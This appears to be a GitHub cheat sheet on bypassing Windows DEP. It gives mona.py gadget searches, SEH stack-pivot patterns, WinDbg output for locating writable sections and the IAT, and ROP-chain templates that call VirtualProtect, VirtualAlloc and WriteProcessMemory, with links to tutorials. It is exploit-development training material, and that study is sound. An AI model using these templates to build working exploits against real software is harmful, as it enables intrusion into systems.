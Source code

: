 # DEP bypass
Some methods and hint to bypass DEP

1. Have you overwrite EIP? 

    ```py
    !py mona find -type instr -s "ret" -m MODULE.dll
    ```

2. Have you overwrite SEH?

   ```py
    add esp, offset + ret
    mov esp, register + ret
    xchg register,esp + ret
    call register (se il registro punta al nostro buffer)
    mov reg,[ebp+0c] + call reg (or other references to seh record)
    push reg + pop esp + ret (if you control ‘reg’)
    mov reg, dword ptr fs:[0] + … + ret  (set esp indirectly, via SEH record)
    ```

3. Search mona modules without rebase
  
    ```py
    !py mona modules -cm rebase=false
    ```
    
    
4. Always remember the padding

    ```py
    ecx = pack("<I",0x68b90948)  # XOR ECX,ECX # MOV EAX,ECX # POP EBX # POP ESI # RETN
    ecx += pack('<L',0x41414141) # padding for pop ebp
    ecx += pack('<L',0x41414141) # padding for pop esi
    ```
    
5. Same for RETN 0xN

    ```py
    rop += istruzione_retn # padding for retn 0x04
    rop += istruzione_retn # padding for retn 0x04
    ```
6. Same for ADD ESP,XX

    ```py
    ecx += pack('<L',0x41414141) # padding for add esp
    ecx += pack('<L',0x41414141) # padding for add esp
    ....
    ```
6. Search RW module
 
    ```py
    0:000> !dh module
    ......

    SECTION HEADER #6
    .idata name
        224 virtual size
        6000 virtual address
        400 size of raw data
        1600 file pointer to raw data
        0 file pointer to relocation table
        0 file pointer to line numbers
        0 number of relocations
        0 number of line numbers
    C0300040 flags
         Initialized Data
         4 byte align
         Read Write
    ............
    
    0:000>  ? modules + 224 + 6000 + 4
    Evaluate expression: 1649435176 = 62506228
  
    0:000> !address 62506228
    Usage:                  Image
    Base Address:           62506000
    End Address:            62507000
    Region Size:            00001000 (   4.000 kB)
    State:                  00001000          MEM_COMMIT
    Protect:                00000004          PAGE_READWRITE
    Type:                   01000000          MEM_IMAGE
    Allocation Base:        62500000
    Allocation Protect:     00000080          PAGE_EXECUTE_WRITECOPY
    Image Path:             C:\Users\User\Desktop\vulnserver\essfunc.dll
    Module Name:            essfunc
    Loaded Image Name:      
    Mapped Image Name:      
    More info:              lmv m essfunc
    More info:              !lmi essfunc
    More info:              ln 0x62506228
    More info:              !dh 0x62500000
    ```

7. Get IAT
    ```py
    0:009> !dh fsws -f
        0  DLL characteristics
        0 [       0] address [size] of Export Directory
    192B50 [     1CC] address [size] of Import Directory
    1AE000 [   133E0] address [size] of Resource Directory
        0 [       0] address [size] of Exception Directory
        0 [       0] address [size] of Security Directory
        0 [       0] address [size] of Base Relocation Directory
    166C40 [      1C] address [size] of Debug Directory
        0 [       0] address [size] of Description Directory
        0 [       0] address [size] of Special Directory
        0 [       0] address [size] of Thread Storage Directory
        0 [       0] address [size] of Load Configuration Directory
        0 [       0] address [size] of Bound Import Directory
    166000 [     C40] address [size] of Import Address Table Directory
        0 [       0] address [size] of Delay Import Directory
        0 [       0] address [size] of COR20 Header Directory
        0 [       0] address [size] of Reserved Directory

    0:009> dps fsws +0x166000 L100
    00566000  7606eb20 advapi32!RegCloseKeyStub
    00566004  760731e0 advapi32!RegEnumKeyA
    00566008  7606ea50 advapi32!RegQueryValueExAStub
    005662f4  7588b6b0 KERNEL32!GetPrivateProfileStringA
    005662f8  7588ae50 KERNEL32!WritePrivateProfileStringA
    005662fc  758887a0 KERNEL32!GetModuleFileNameAStub
    ......
    0:009> dps
    ......
    ```
## Regex ROP
```py
:  # (jmp|call) esp
:  # mov e..,e..
:  # xchg e..,e..
:  # push e.. # RETN  
:  # push e.. # pop e.. # RETN  
:  # pop e.. # RETN  
:  # inc e..
:  # dec e..
:  # neg e..
:  # push e..
:  # pop e..
:  # ADD E..,e..
:  # pushad # RETN
:  # and E..,(E..|0x.+?|[[:alnum:]])+
:  # xor E..,(E..|0x.+?|[[:alnum:]])+
:  # ADD E..,(E..|0x.+?|[[:alnum:]])+
:  # sub E..,(E..|0x.+?|[[:alnum:]])+
:  # mov e..,DWORD PTR
:  # lea e..,
:  # MOV DWORD PTR \[(E..|E..\+[[:alnum:]]+)\],EAX
```

## VirtualProtect Basic Template

```py
#GOALS - VirtualProtect
#EAX 90909090 => Nop                                              
#ECX <writeable pointer> => lpflOldProtect                                
#EDX 00000040 => flNewProtect                                   
#EBX 00000201 => dwSize   512                                      
#ESP ???????? => Leave as is                                 
#EBP ???????? => Call to ESP (jmp, call, push,..) -> !py mona jmp -r esp -cpb '\x00'              
#ESI ???????? => PTR to VirtualProtect - DWORD PTR of VirtualProtect 
#EDI RETN => ROP-Nop same as EIP  --> !py mona find -type instr -s "retn" -m module.dll -cpb "\x00"
```
## VirtualProtect Sniper Template

```py
# Calling VirtualProtect with parameters
payload += struct.pack('<L', 0x77325c90)    # Pointer to kernel32.VirtualProtect()
payload += struct.pack('<L', 0x11111111)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
payload += struct.pack('<L', 0x22222222)    # lpAddress
payload += struct.pack('<L', 0x33333333)    # size of shellcode (0x500 is ok)
payload += struct.pack('<L', 0x44444444)    # flNewProtect (0x40)
payload += struct.pack('<L', 0x62506d10)    # pOldProtect (any writeable address)
```

## VirtualAlloc Template
```py
#GOAL       VirtualAlloc                                         
# EAX 90909090 => Nop                                                
# ECX 00000040 => flProtect                                         
# EDX 00001000 => flAllocationType                                    
# EBX 00000001 => dwSize                                            
# ESP ???????? => Leave as is                                         
# EBP ???????? => Call to ESP (jmp, call, push,..)    !py mona jmp -r esp -cpb '\x00'                    
# ESI ???????? => PTR to VirtualAlloc - DWORD PTR of VirtualAlloc         
# EDI RETN => ROP-Nop same as EIP          !py mona find -type instr -s "retn" -m modulo.dll -cpb "\x00"   
```

## WriteProcessMemory Template
No encoding for this method! Create manually the shellcode
```py
# kernel32!WriteProcessMemory placeholder parameters
payload += struct.pack('<L', 0x7732ae50)    # Pointer to kernel32!WriteProcessMemory 
payload += struct.pack('<L', 0x61c72d10)    # RX from MODULE no aslr
payload += struct.pack('<L', 0xFFFFFFFF)    # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
payload += struct.pack('<L', 0x61c72d10)    # lpBaseAddress = RX from MODULE no aslr
payload += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
payload += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
payload += struct.pack('<L', 0x1004dd10)    # lpNumberOfBytesWritten = writable location RW in MODULE no aslr
```
## Resources
1. https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/
2. https://vickieli.dev/binary%20exploitation/data-execution-prevention/
3. https://connormcgarr.github.io/ROP/
4. https://trailofbits.files.wordpress.com/2010/04/practical-rop.pdf
5. https://www.fuzzysecurity.com/tutorials/expDev/7.html
6. https://h0mbre.github.io/Creating_Win32_ROP_Chains
7. https://www.shogunlab.com/blog/2018/02/11/zdzg-windows-exploit-5.html
8. https://connormcgarr.github.io/ROP2/
